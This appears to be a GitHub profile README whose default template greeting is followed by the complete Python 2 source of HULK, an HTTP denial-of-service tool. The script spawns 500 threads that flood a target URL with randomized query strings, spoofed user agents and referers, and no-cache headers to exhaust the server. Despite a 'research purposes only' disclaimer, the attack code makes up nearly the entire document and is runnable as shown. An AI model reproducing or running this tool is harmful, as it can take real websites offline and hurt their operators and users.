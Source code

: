 - 👋 Hi, I’m @psang0211
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
psang0211/psang0211 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
# ----------------------------------------------------------------------------------------------
# HULK - HTTP Unbearable Load King
#
# this tool is a dos tool that is meant to put heavy load on HTTP servers in order to bring them
# to their knees by exhausting the resource pool, its is meant for research purposes only
# and any malicious usage of this tool is prohibited.
#
# author :  Barry Shteiman , version 1.0
# ----------------------------------------------------------------------------------------------
import urllib2
import sys
import threading
import random
import re

#global params
url=''
host=''
headers_useragents=[]
headers_referers=[]
request_counter=0
flag=0
safe=0

def inc_counter():
	global request_counter
	request_counter+=1

def set_flag(val):
	global flag
	flag=val

def set_safe():
	global safe
	safe=1
	
# generates a user agent array
def useragent_list():
	global headers_useragents
	headers_useragents.append('Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.9.1.3) Gecko/20090824 Firefox/3.5.3 (.NET CLR 3.5.30729)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.1.1) Gecko/20090718 Firefox/3.5.1')
	headers_useragents.append('Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/4.0.219.6 Safari/532.1')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.2; Win64; x64; Trident/4.0)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; SV1; .NET CLR 2.0.50727; InfoPath.2)')
	headers_useragents.append('Mozilla/5.0 (Windows; U; MSIE 7.0; Windows NT 6.0; en-US)')
	headers_useragents.append('Mozilla/4.0 (compatible; MSIE 6.1; Windows XP)')
	headers_useragents.append('Opera/9.80 (Windows NT 5.2; U; ru) Presto/2.5.22 Version/10.51')
	return(headers_useragents)

# generates a referer array
def referer_list():
	global headers_referers
	headers_referers.append('http://www.google.com/?q=')
	headers_referers.append('http://www.usatoday.com/search/results?q=')
	headers_referers.append('http://engadget.search.aol.com/search?q=')
	headers_referers.append('http://' + host + '/')
	return(headers_referers)
	
#builds random ascii string
def buildblock(size):
	out_str = ''
	for i in range(0, size):
		a = random.randint(65, 90)
		out_str += chr(a)
	return(out_str)

def usage():
	print '---------------------------------------------------'
	print 'USAGE: python hulk.py <url>'
	print 'you can add "safe" after url, to autoshut after dos'
	print '---------------------------------------------------'

	
#http request
def httpcall(url):
	useragent_list()
	referer_list()
	code=0
	if url.count("?")>0:
		param_joiner="&"
	else:
		param_joiner="?"
	request = urllib2.Request(url + param_joiner + buildblock(random.randint(3,10)) + '=' + buildblock(random.randint(3,10)))
	request.add_header('User-Agent', random.choice(headers_useragents))
	request.add_header('Cache-Control', 'no-cache')
	request.add_header('Accept-Charset', 'ISO-8859-1,utf-8;q=0.7,*;q=0.7')
	request.add_header('Referer', random.choice(headers_referers) + buildblock(random.randint(5,10)))
	request.add_header('Keep-Alive', random.randint(110,120))
	request.add_header('Connection', 'keep-alive')
	request.add_header('Host',host)
	try:
			urllib2.urlopen(request)
	except urllib2.HTTPError, e:
			#print e.code
			set_flag(1)
			print 'Response Code 500'
			code=500
	except urllib2.URLError, e:
			#print e.reason
			sys.exit()
	else:
			inc_counter()
			urllib2.urlopen(request)
	return(code)		

	
#http caller thread 
class HTTPThread(threading.Thread):
	def run(self):
		try:
			while flag<2:
				code=httpcall(url)
				if (code==500) & (safe==1):
					set_flag(2)
		except Exception, ex:
			pass

# monitors http threads and counts requests
class MonitorThread(threading.Thread):
	def run(self):
		previous=request_counter
		while flag==0:
			if (previous+100<request_counter) & (previous<>request_counter):
				print "%d Requests Sent" % (request_counter)
				previous=request_counter
		if flag==2:
			print "\n-- HULK Attack Finished --"

#execute 
if len(sys.argv) < 2:
	usage()
	sys.exit()
else:
	if sys.argv[1]=="help":
		usage()
		sys.exit()
	else:
		print "-- HULK Attack Started --"
		if len(sys.argv)== 3:
			if sys.argv[2]=="safe":
				set_safe()
		url = sys.argv[1]
		if url.count("/")==2:
			url = url + "/"
		m = re.search('(https?\://)?([^/]*)/?.*', url)
		host = m.group(2)
		for i in range(500):
			t = HTTPThread()
			t.start()
		t = MonitorThread()
		t.start()
                                                       
                                                       
                                                       
